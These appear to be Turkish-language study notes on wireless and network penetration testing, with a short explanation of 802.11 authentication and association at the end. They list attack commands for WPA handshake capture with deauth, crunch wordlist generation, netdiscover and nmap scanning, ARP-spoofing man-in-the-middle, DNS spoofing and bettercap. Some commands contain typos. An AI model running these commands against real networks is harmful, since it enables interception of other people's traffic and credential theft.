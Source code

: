 WPA SALDIRILARI(HANDSHAKE YAKALAMAK)
 	-airodump-ng --bssid <target-mac> --channel <channel> --write(isteğe bağlı) <interface>
	*Takibe alındığında kullanıcı girmesine beklenene kadar deauth saldırısı ile kendimizi          yetkilendirelim.

	WORDLIST YARATMAK(ŞİFRELERİN OLD. WORDLIST YARATIR)
            ./crunch <min> <max> <char> -t <pottern> - o file
	./crunch 8 10 123!é!’ -t m@@p -file wordlist

	
	BAĞLANTI SONRASI YAPILACAKLAR 
	-BAĞLANTI SONRASI AYARLAR-
 	DISCOVER
	-netdiscover -i <interface> -r <range>
	-netdiscover -i wlan0 -r 192.168.1.1/24

	NETDISCOVER 
	-netdiscover -r 10.0.2.10/24
	-nmap 10.0.2.0/24(daha detaylı sonuç)

	MAN IN THE MIDDLE(MITM)
	-arpspoof -i <interface> -t <target-IP> <AP-IP>
-arpspoof -i <interface> -t <AP-IP> <target-IP>

-arpspoof -i eth0 10.0.2.15 10.02.1
-arpspoof -i eth0(Başka birinin saldırı olacaksa wlan0 yazılır.) 10.0.2.1   10.0.2.15

*Windows’ta ipconfig yazınca mac adres ile altta diğer mac adresi aynıysa bir MITM saldırısı vardır.

MITM FREWORK(ALINAN VERİLERİN OKUNMASI)
-python mitm.py -i eth0 --arp --spoof --gateway 10.2.0.1(kendı-ip) --target 10.0.2.5
*Kendi pc’mizi sunucu olarak kullanabiliriz.
-start apache2 start(Linux içinde kendi sunucumuzu açar.Güncel ip ile.)(/var/www/html içindedir.)

-python kodunun sonuna --dns yazılınca dns saldırısı yapar.




BETTERCAP(yüklü değilse apt-get install bettercap)
-bettercap -iface eth0(kullanılan internet araç izi)
-net discover’da yaptığımız işleri yapmaya 

KABLOSUZ AĞ
Kablosuz Ağ Bağlanma Aşamaları Authentication(Kimlik doğrulama): Bir kullanıcı sisteminin AP’ye kimlik doğrulayarak ağa dahil olmasının ilk adımdır. Bu adımda iletilen frameler şifrelenmemektedir(Çünkü management framelerden birisidir). 2 çeşit kimlik doğrulama tanımlanmıştır: Open ve Shared Key.

 ● Open System Authentication: Bu tip kimlik doğrulamada istemciden içinde MAC adresinin olduğu bir istek gider ve AP’den isteğin kabul veya reddediğine dair bir cevap dönülür. 

● Shared Key Authentication: Kimlik doğrulama için ortak olarak bilinen bir anahtar(parola) kullanılır. Önce istemci AP’ye bir bağlantı isteğinde bulunur. AP kullanıcıya challenge text gönderir. İstemci bilinen anahtar bilgisiyle bu metini şifreler ve AP’ye gönderir. AP şifreli metini alır ve üzerinde belirlenen asıl anahtarla bu metinin şifresini çözer. Eğer şifresi çözülmüş olan metin, kullanıcıya ilk olarak gönderilen challenge text ile aynıysa parola doğru demektir. Kullanıcıya kimlik doğrulama için kabul veya ret içeren bir cevap dönülür.
Association (Ağa kayıt olma): İstemciler kimlik doğrulama adımını geçtikten sonra AP tarafından ağa kayıt edilmelidir(association). Bu işlem olmadan istemciden gelen/giden frameler AP tarafından yoksayılır. Bir istemci aynı anda sadece bir ağa kayıt olabilir ve kayıt işlemi sadece iletişim AP üzerinden gerçekleştiği Infrastructure modda gerçekleşir. İstemci association için bir istek gönderir, AP isteği değerlendirir ve olumlu yada olumsuz cevap döner. Eğer cevap olumluysa association cevabı içinde istemciyi daha sonra tanımak için atanan bir ID bulunur(Association ID(AID)).
